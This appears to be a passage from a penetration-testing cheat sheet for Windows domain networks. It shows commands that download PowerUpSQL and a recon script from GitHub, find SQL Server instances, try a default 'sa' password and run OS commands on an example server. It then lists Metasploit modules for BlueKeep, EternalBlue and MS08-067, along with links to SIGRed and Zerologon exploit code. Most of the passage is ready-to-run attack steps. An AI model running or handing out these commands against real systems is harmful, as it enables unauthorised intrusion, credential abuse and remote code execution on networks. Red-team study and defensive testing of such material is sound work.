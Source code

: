 ```
$ curl -L https://github.com/NetSPI/PowerUpSQL/raw/master/PowerUpSQL.ps1 > powerupsql.ps1
PS > Get-SQLInstanceDomain
PS > Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10 -UserName sa -Password 'Passw0rd!' -Verbose
PS > Invoke-SQLOSCmd -UserName sa -Password 'Passw0rd!' -Instance sqlsrv01.megacorp.local -Command whoami

$ curl -L https://github.com/PyroTek3/PowerShell-AD-Recon/raw/master/Discover-PSMSSQLServers > discover-mssql.ps1
PS > Discover-PSMSSQLServers | Select ServerName,Description | Tee-Object mssql.txt
```



### LHF Exploits & Checkers


#### BlueKeep

CVE-2019-0708.

```
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce
```


#### EternalBlue

CVE-2017-0144, MS17-010.

```
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```


#### net_api

CVE-2008-4250, MS08-067.

```
msf5 > use exploit/windows/smb/ms08_067_netapi
```


#### SIGRed

CVE-2020-1350.

* [github.com/T13nn3s/CVE-2020-1350](https://github.com/T13nn3s/CVE-2020-1350)


#### Zerologon

CVE-2020-1472.

* [github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)
* [github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
* [github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472](https://github.com/blackarrowsec/redteam-research/tree/master/CVE-2020-1472)
